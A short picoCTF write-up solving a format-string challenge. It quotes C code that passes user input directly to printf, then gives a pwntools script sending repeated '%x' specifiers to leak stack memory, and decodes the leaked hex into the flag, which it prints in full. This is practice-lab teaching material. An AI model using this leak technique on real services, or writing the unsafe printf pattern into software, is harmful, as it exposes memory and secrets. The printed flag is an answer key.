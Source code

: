 ```C
   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
```

So, on inputting 200 %x should suffice to print out the stack elements
```python
from pwn import *
s = remote("saturn.picoctf.net", 62708)
s.recv()
s.send(b"%x" * 200) # enough to fill the whole buffer
s.recvuntil(b"- \n")
leak = s.recv()
print(leak)
```
Here’s a script for that 

  [https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/stringzz.md](https://github.com/Dvd848/CTFs/blob/master/2019_picoCTF/stringzz.md)
Then copy paste the leak into cyberchef from hex and cut out senseless parts until flag is seen
On deleting till the last set of recurring numbers in cyberchef, from hex, we get

```bash
[+] Opening connection to saturn.picoctf.net on port 56480: Done
b'ffcd57f0ffcd58108049346782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578257825782578252578256f6369707b4654436b34334c5f676e3167346c466666305f3474535f395f6b63326539397d343238fbad20004790e000f7fa4990804c00080494100804c000ffcd58d880494182ffcd5984ffcd59900ffcd58f000f7d9aed5\n'
[*] Closed connection to saturn.picoctf.net port 56480
```

`ocip{FTCk43L_gn1g4lFff0_4tS_9_kc2e99}428`
We get this, flipping every 4 characters we get the flag

**FLAG - `picoCTF{L34k1ng_Fl4g_0ff_St4ck_999e2824}`**
